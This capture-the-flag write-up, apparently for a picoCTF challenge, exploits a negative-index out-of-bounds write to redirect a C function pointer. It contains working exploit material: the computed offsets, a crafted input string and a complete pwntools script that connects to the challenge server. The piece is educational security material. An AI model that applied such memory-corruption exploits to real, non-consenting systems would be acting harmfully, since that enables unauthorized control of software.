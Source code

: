 

The challenge provides a 32-bit, non-PIE Linux executable. The objective is to retrieve a flag by exploiting a vulnerability in the provided C source code.

The program prompts the user for two inputs: a string (`story`) and two integers (`num1`, `num2`). It then calls a function pointer, `check`, which is initialized to point to the `hard_checker` function. The `hard_checker` function requires the sum of the input string's ASCII character values to be `13371337`, a condition that is computationally impossible given the buffer's size limit of 127 characters.

The `easy_checker` function, however, requires a sum of only `1337`, which is achievable. The goal is therefore to redirect the `check` function pointer from `hard_checker` to `easy_checker`.

-----


The vulnerability lies in the `vuln` function:

```c
void vuln()
{
  char story[128];
  int num1, num2;

  printf("Tell me a story and then I'll tell you if you're a 1337 >> ");
  scanf("%127s", story);
  printf("On a totally unrelated note, give me two numbers. Keep the first one less than 10.\n");
  scanf("%d %d", &num1, &num2);

  if (num1 < 10)
  {
    fun[num1] += num2;
  }

  check(story, strlen(story));
}
```

The code checks if `num1` is less than 10 to prevent an upper out-of-bounds write on the global array `int fun[10]`. However, it fails to check for negative values. The `scanf` function with the `%d` format specifier permits negative integers. By supplying a negative value for `num1`, an attacker can write to memory locations preceding the `fun` array. This is a classic **integer underflow** leading to an out-of-bounds write.

The target of this write is the global function pointer `void (*check)(char*, size_t)`, which is defined directly before the `fun` array in the source code.

-----



The exploit is executed in two stages: redirecting the function pointer and satisfying the new condition.

#### 3.1. Control Flow Hijacking

The first step is to calculate the precise offsets needed to modify the `check` pointer. This requires analysis of the specific binary provided for the challenge instance.

1.  **Function Address Delta:** The operation is an addition (`+=`), not a direct overwrite. To change the pointer's value from the address of `hard_checker` to that of `easy_checker`, we must add the difference between their addresses.

      * Address of `easy_checker`: `0x80492fc`
      * Address of `hard_checker`: `0x8049436`
      * **Value (`num2`)**: \`$0x80492fc - 0x8049436 = -570$

2.  **Memory Layout and Index Offset:** It cannot be assumed that the `check` pointer and `fun` array are adjacent in memory. Compilers may introduce padding. By examining the binary's symbol table, the exact addresses are found:

      * Address of `check` pointer: `0x804c040`
      * Address of `fun` array: `0x804c080`
      * **Memory Gap**: \`$0x804c080 - 0x804c040 = 0x40$ (64 bytes)
      * Since `fun` is an array of 4-byte integers, the index (`num1`) required to reach the `check` pointer is calculated as: `-(64 / 4) = -16`.

The payload to overwrite the pointer is therefore `num1 = -16` and `num2 = -570`.



The second step is to provide a string to `story` whose character values sum to `1337`. The string `"ZZZZZZZZZZZZZZM"` satisfies this condition:

  * ASCII('Z') = 90
  * ASCII('M') = 77
  * **Total Score**: $(14 \\times 90) + 77 = 1260 + 77 = 1337$.

-----



The following Python script automates the exploitation process by sending the calculated payloads to the remote server.

```python
#!/usr/bin/env python3
from pwn import *

# --- Configuration ---
HOST = "saturn.picoctf.net"
PORT = 60188 # Note: Port may vary per instance

# --- Calculated Offsets ---
# Value to add to the function pointer
address_delta = -570
# Index to reach the function pointer's memory location
index_offset = -16

# --- Execution ---
try:
    # Connect to the remote target
    io = connect(HOST, PORT)

    # 1. Send the story payload to satisfy the easy_checker condition
    story_payload = b"Z" * 14 + b"M"
    io.sendlineafter(b'>> ', story_payload)

    # 2. Send the numeric payload to overwrite the function pointer
    numeric_payload = f"{index_offset} {address_delta}".encode()
    io.sendlineafter(b'Keep the first one less than 10.\n', numeric_payload)

    # 3. Receive and parse the flag
    io.recvuntil(b'picoCTF{')
    flag_content = io.recvuntil(b'}', drop=True).decode()
    flag = f"picoCTF{{{flag_content}}}"
    log.success(f"Flag: {flag}")

except Exception as e:
    log.failure(f"Exploit failed: {e}")
finally:
    if 'io' in locals() and io:
        io.close()
```
